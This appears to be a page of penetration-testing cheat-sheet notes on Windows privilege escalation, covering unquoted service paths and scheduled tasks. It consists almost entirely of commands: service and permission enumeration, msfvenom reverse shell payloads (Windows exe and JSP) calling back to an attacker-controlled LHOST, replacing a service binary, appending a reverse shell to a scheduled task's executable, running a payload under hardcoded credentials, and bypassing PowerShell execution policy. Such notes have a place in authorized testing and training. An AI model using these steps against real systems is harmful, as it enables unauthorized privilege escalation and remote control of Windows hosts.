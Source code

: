 ## UNQUOTED SERVICE PATHS
```
Get-CimInstance -ClassName win32_service | Select Name,State,PathName

wmic service get name,startname,pathname (display service names and its path)

sc qc unquotedsvc (querying the service to check)  

accesschk.exe /accepteula -uwdq "C:\ProgramFiles\UnquotedPathService\"(Checking Write Access) 

msfvenom -p windows/x64/shell_reverse_tcp LHOST=kaliip LPORT=port -f exe -o reverse.exe  

move servicefile.exe servicefile.bak  

File Transfer (Place the file based on unquoted service path exploit)  

Start listener  
net start servicename
```

## Task Scheduler 
```
Get-ScheduledTask 
or
schtasks /query /fo LIST /V (identify at ask that works once a minute)  

accesschk.exe /accepteula -quvw user C:\DevTools\service.exe  

echo C:\PrivEsc\reverse.exe >> C:\DevTools\service.exe (we are just adding the path of our reverse shell executable) 

Startlistener

In Some cases,  
create a schedule task (cfexec.cfm) in C:\inetpub\wwwroot\cfexec.cfm and check save output

or reverse shell  
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp

PS1 File?

$secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force  

$mycreds = New-Object System.Management.Automation.PSCredential("alice",$secpasswd)  

$computer="Bethany"  

[System.Diagnostics.Process]::Start("C:\Users\Public\rev.exe","",$mycreds.Username,$mycreds.Password,$computer) 

msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > rev.exe  

powershell -ExecutionPolicy Bypass -File c:\users\public\root.ps1
```
